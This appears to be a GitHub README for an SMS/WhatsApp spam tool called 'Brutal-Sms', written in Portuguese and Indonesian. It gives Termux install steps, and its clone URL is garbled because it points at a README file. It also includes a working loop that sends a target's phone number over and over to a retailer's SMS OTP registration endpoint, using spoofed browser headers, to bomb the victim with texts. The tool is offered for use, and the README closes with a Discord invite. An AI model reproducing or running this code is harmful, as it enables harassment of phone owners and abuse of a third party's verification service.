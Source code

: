 # SPAM-WHATSAPP-
Essa e uma ferramenta feita por mim Lkz Geralmente usada pra spams no whatsapp 
## Brutal-Sms
Ferramenta Spam tool perfeita Created by lkz
INF3CTUS 🇧🇷 🇵🇹 

<details open>
  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  git clone https://github.com/lkzFDC/SPAM-WHATSAPP-/blob/main/README.md
  cd Brutal-Sms
  bash install.sh
  python run.py
  ```
  </detales>

<details open>
  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash
  Example:
  abc=input("Nomor Target:")
  while True:
        print (abc)
        # Tambah time.sleep(5) (Jika Ingin Delay)
  ```
  </details>

#### INF3CTUS 📍
|INF3CTUS | Check |
|--------|--------|
| **24H Sem parar* |[✔️](. https://github.com/lkzFDC/SPAM-WHATSAPP-/blob/main/README.md ) |
| **Brutal Spam** |[✔️](https://github.com/lkzFDC/SPAM-WHATSAPP-/blob/main/README.md) |
| **Simple** |[✔️](https://github.com/lkzFDC/SPAM-WHATSAPP-/blob/main/README.md) |
| **No Encrypt** |[✔️](https://github.com/lkzFDC/SPAM-WHATSAPP-/blob/main/README.md) |
| 
---------

<details open>
  <summary><strong> 24 jam non stop example </strong></summary>

  ```bash
  nomor=input("Nomor Target:")
  while True:
        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text
        time.sleep(10) # Waktu Delay Bisa Atur Sendiri
  ```
  </details>

> Entre No nosso Discord
> https://discord.gg/HPcuFzxR

